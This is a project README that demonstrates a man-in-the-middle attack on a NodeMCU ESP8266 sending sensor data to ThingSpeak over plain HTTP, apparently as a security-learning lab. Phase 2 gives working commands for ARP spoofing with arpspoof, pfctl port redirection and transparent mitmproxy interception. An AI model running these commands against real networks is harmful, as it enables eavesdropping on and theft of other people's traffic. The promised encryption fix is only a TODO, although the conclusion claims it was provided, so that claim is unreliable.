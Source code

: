 # NodeMCU ESP8266 Vulnerability Showcase

This project showcases a vulnerability in NodeMCU ESP8266 that allows man-in-the-middle (MITM) attacks to be easily possible on the IoT device and steal the data that is being sent from NodeMCU to the server. The project demonstrates how an attacker can intercept the data being sent from NodeMCU to a server using ARP spoofing and how the data can be stolen as it is sent over the network in plaintext.

## Introduction

The NodeMCU ESP8266 is a popular Internet of Things (IoT) device that uses built-in Wi-Fi to connect to the internet. It can be programmed using Lua or Arduino IDE, and is widely used in many IoT projects. However, it is vulnerable to Man-in-the-Middle (MITM) attacks, where an attacker can intercept and steal the data being sent from NodeMCU to the server. This project demonstrates how to perform a MITM attack on NodeMCU and how to prevent it using Elliptic Curve Cryptography.

## Project Overview

This project involves two phases. In the first phase, we connect a BMP280 sensor to NodeMCU and collect temperature, barometric pressure, and altitude data from the sensor. NodeMCU then sends this data to ThingSpeak, a cloud-based IoT platform, using its built-in Wi-Fi module. In the second phase, we demonstrate how to perform a MITM attack on NodeMCU using a MacBook as the attacker machine. Finally, we implement Elliptic Curve Cryptography to secure the data being sent from NodeMCU to the server.

## Tools Required

- NodeMCU ESP8266
- BMP280 Sensor
- MacBook or any other computer with Wireshark and Mitmproxy installed
- Arduino IDE or Lua to program NodeMCU
- ThingSpeak account

### Phase 1: Collecting Data from Sensor and Sending to ThingSpeak

1. Connect the BMP280 sensor to NodeMCU. The BMP280 has SDA and SCL pins that should be connected to D2 and D1 pins on NodeMCU, respectively. The VCC and GND pins should be connected to the 3V3 and G pins on NodeMCU, respectively.

2. Open the Arduino IDE or Lua editor and write a code to collect data from the sensor and send it to ThingSpeak using the Wi-Fi module of NodeMCU. The code should also display the collected data on the Serial Monitor. The code can be found in the file `bmp_to_thingspeak.ino` in this repository. Make sure that you have installed the required libraries like Adafruit_BMP280, ESP8266WiFi, and ThingSpeak.

3. Upload the code to NodeMCU using the Arduino IDE or Lua editor.

4. Create a ThingSpeak account and create a channel to receive the data from NodeMCU. Note down the Channel ID and API Key.

5. Power on NodeMCU and verify that it is sending data to ThingSpeak by checking the Serial Monitor and the ThingSpeak channel.

### Phase 2: Performing MITM Attack on NodeMCU

1. Install Wireshark on the MacBook or any other computer that will be used as the attacker machine.

2. Connect the MacBook and NodeMCU to the same Wi-Fi network.

`Next, we will perform a Man-in-the-Middle (MITM) attack to intercept the traffic between NodeMCU and the server. For this purpose, we will use mitmproxy, a popular open-source tool for intercepting, modifying, and replaying HTTP/HTTPS traffic.`

3. Download mitmproxy:

mitmproxy can be installed on macOS using the Homebrew package manager. Open the terminal and type the following command to install mitmproxy:

```zsh
brew install mitmproxy
```

4. List devices on the network:

Type the following command to list all the devices connected to the same network:
```zsh
arp -a
```

5. Enable IP forwarding:

To enable IP forwarding, type the following command:

```zsh
sudo sysctl -w net.inet.ip.forwarding=1
```

6. Perform ARP spoofing:

Use the following command to perform ARP spoofing:

```zsh
arpspoof -i en0 -r -t <default gateway> <victim device IP address>
```

Here, -i specifies the interface (in this case, it is Wi-Fi), -r makes the attack bidirectional, -t specifies the target (NodeMCU), and <default gateway> is the IP address of the router, and <victim device IP address> is the IP address of NodeMCU. Note that the order of <default gateway> and <victim device IP address> can be reversed.

7. Enable port forwarding:

To capture the traffic between NodeMCU and the server, we need to forward the port through which the data is being sent to mitmproxy. Use the following command to do so:

```zsh
echo "rdr pass inet proto tcp from any to any port <port on which data is being sent> -> 127.0.0.1 port <port on which mitmproxy is running>" | sudo pfctl -ef -
```

In this case, the requests are sent via HTTP, so we need to forward port 80 to the desired port (8080 in this case, as we will be running mitmproxy on port 8080).

For Linux, you can use iptables to forward the port.

8. Run mitmproxy:

Use the following command to start mitmproxy:

```zsh
mitmproxy --mode transparent --showhost -p <port on which mitmproxy is running> -k
```

Here, --mode transparent specifies the mode of attack (transparent means the victim won't be aware of the attack), --showhost shows the host name of the server, -p specifies the port on which mitmproxy is running (8080 in this case), and -k disables TLS verification (since we are intercepting HTTPS traffic).

Wait for data from NodeMCU:

Now, you can see the data that is being sent from NodeMCU to the server. Note that the data is not encrypted, so sensitive data can be easily stolen.

9. Revert port forwarding rule (optional):

Once you have finished intercepting the traffic, use the following command to revert the port forwarding rule:

```zsh
sudo pfctl -f /etc/pf.conf
```

For Linux, use the appropriate iptables command to revert the port forwarding rule.

Finally, to ensure the security of the data being sent from NodeMCU, it is recommended using elliptic curve cryptography instead of RSA, as RSA requires a lot of processing power and is vulnerable to timing attacks.

### Phase 3: Adding Security to the Project, i.e Implementing Elliptic Curve Cryptography

Problem: The data being sent from nodemcu was not encrypted. Sensitive data can be easily stolen.
Solution: RSA cannot be used as it requires more computational power. Hence we use elliptic curve cryptography as it is suitable for low-powered devices.

We can add security to the project by following these steps:

#### TODO


## Conclusion

In this project, we showcased a vulnerability in the nodemcu esp8266 that allows a man-in-the-middle attack to be easily possible on the IoT device and steal the data that is being sent from nodemcu to the server. We demonstrated how to perform a man-in-the-middle attack on the nodemcu and steal the data being sent from nodemcu to the server. We also provided a solution to this vulnerability by adding security to the project using elliptic curve cryptography.